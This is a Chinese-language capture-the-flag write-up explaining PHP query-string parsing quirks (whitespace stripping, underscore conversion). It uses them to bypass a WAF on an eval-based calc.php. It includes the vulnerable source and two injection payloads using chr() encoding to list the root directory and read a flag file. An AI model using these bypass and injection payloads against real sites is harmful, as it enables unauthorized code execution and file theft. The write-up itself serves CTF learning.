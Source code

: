 # php字符串特性及waf绕过

## php字符串特性

php在查询字符串时，会有两个特性：
```
删除空白格

将某些字符转换为下划线
```

## waf的绕过
 
如果一个waf对一个变量的内容进行了审计，则如果想绕过waf，可以在变量名前面加空格，这样waf就不会将其作为
它要审计的变量名，但前提是waf不是php写的，题目是php写的


## scandir()函数

scandir()函数返回指定目录的文件和目录的数组

## var_dump()函数

var_dump()函数显示一个或多个表达式的结构信息，包括表达式的类型和数值



## 实例

通过查看页面源代码，我们可以知道它有一个waf和一个文件calc.php

我们通过构造/calc.php，得到源代码
```
<?php
error_reporting(0);
if(!isset($_GET['num'])){
    show_source(__FILE__);
}else{
        $str = $_GET['num'];
        $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]','\$','\\','\^'];
        foreach ($blacklist as $blackitem) {
                if (preg_match('/' . $blackitem . '/m', $str)) {
                        die("what are you want to do?");
                }
        }
        eval('echo '.$str.';');
}
?> 
```
通过对源代码的审计，发现它对某些字符进行了过滤

因此，由于可以利用php字符串的特性，在num前面加空格绕过waf，并构造payload来查看flag位置
```
calc.php? num=var_dump(scandir(chr(47)));
```

可以看见里面有flagg文件，因此我们可以构造payload
```
calc.php? num=var_dump(file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)))
```

可以得到flag